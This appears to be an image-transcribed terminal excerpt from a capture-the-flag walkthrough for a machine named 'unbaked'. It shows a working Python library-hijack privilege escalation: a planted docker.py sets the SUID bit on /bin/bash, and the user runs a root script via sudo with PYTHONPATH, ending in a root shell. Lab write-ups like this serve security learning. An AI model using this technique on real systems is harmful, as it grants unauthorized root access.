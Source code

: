 ```powershell
oliver@unbaked:~$ cat /opt/dockerScript.py
import docker

# oliver, make sure to restart docker if it crashes or anything happened.
# i havent setup swap memory for it
# it is still in development, please dont let it live yet!!!
client = docker.from_env()
client.containers.run("python-django:latest", "sleep infinity", detach=True)

oliver@unbaked:~$ nano docker.py

import os

os.system('chmod 4777 /bin/bash')

oliver@unbaked:~$ sudo -u root PYTHONPATH=/home/oliver /usr/bin/python /opt/dockerScript.py
Traceback (most recent call last):
  File "/opt/dockerScript.py", line 6, in <module>
    client = docker.from_env()
AttributeError: 'module' object has no attribute 'from_env'

oliver@unbaked:~$ ls -lsa /bin/bash
1016 -rwsrwxrwx 1 root root 1037528 Jul 13  2019 /bin/bash

oliver@unbaked:~$ /bin/bash -p
bash-4.3# whoami
root
bash-4.3# id
uid=1002(oliver) gid=1002(oliver) euid=0(root) groups=1002(oliver),1003(sysadmin)
bash-4.3# pwd
/home/oliver
bash-4.3# 

```